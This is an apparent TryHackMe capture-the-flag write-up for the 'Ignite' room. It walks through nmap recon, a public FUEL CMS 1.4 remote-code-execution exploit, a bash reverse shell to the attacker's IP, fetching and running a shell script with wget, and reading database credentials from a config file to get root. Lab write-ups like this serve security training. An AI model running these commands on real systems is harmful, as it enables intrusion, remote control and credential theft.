 # Ignite

![tryhackme.com - © TryHackMe](.gitbook/assets/tryhackme-logo-small.png)

## Intro

| Room Info           | ![](.gitbook/assets/ignite.png)             |
| :------------------ | ------------------------------------------- |
| 🔗 Name              | [Ignite](https://tryhackme.com/room/ignite) |
| 🎯 Target IP         | `10.10.174.21`                              |
| 📈 Difficulty level  | 🟢Easy                                       |
| 💲 Subscription type | Free                                        |
| 🪟 🐧OS               | Linux                                       |

---

## Recon

```bash
mkdir ignite
cd ignite
nmap -sV -sC -oA nmap_ignite 10.10.174.21
```

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
| http-robots.txt: 1 disallowed entry
|_/fuel/
```

> 📌 Found **FUEL CMS v. 1.4** on port `80`

### Local Recon

Navigate to

* `http://10.10.174.21/`
* `http://10.10.174.21/fuel`
  * `admin`:`admin`

## Exploitation

* Search for a Fuel CMS exploit

```bash
searchsploit fuel cms
searchsploit -m 50477
less 50477.py

python 50477.py -u http://10.10.174.21
```

> 📌 [Fuel CMS 1.4.1 - Remote Code Execution (3)](https://www.exploit-db.com/exploits/50477)

```bash
whoami
```

![](.gitbook/assets/image-20230511172416842.png)

### Reverse Shell

```bash
ip -br -c a
	10.18.65.48 # my IP
	
subl shell.sh

# Insert this line for a bash reverse shell
/bin/bash -i >& /dev/tcp/10.18.65.48/3333 0>&1
```

* Setup a Python web server and a `nc` listener on 2 different tabs

```bash
python -m http.server

nc -nvlp 3333
```

* Back in the exploited Fuel CMS `Enter Command $`

```bash
wget http://10.18.65.48:8000/shell.sh -O shell.sh
bash shell.sh
```

* 🚩 Reverse shell received in the `nc` terminal

```bash
/usr/bin/script -qc /bin/bash /dev/null
cd /home/www-data
ls
cat flag.txt
6470e***************************
```

---

## Privilege Escalation

* Enumerate Fuel CMS application
  * `/var/www/html/fuel/application/config/`

```bash
cat /var/www/html/fuel/application/config/database.php
```

```bash
$db['default'] = array(
	'dsn'	=> '',
	'hostname' => 'localhost',
	'username' => 'root',
	'password' => 'mememe',
	'database' => 'fuel_schema',
	'dbdriver' => 'mysqli',
	'dbprefix' => '',
	'pconnect' => FALSE,
	'db_debug' => (ENVIRONMENT !== 'production'),
	'cache_on' => FALSE,
	'cachedir' => '',
	'char_set' => 'utf8',
	'dbcollat' => 'utf8_general_ci',
	'swap_pre' => '',
	'encrypt' => FALSE,
	'compress' => FALSE,
	'stricton' => FALSE,
	'failover' => array(),
	'save_queries' => TRUE
);
```

> 📌 Found database credentials: `root`:`mememe`

* Try to use those credentials for the `root` user of the system

```bash
su root

whoami
cd
cat root.txt
b9bbc**************************
```


![](.gitbook/assets/2024-10-20_22-24-49_763.png)

***
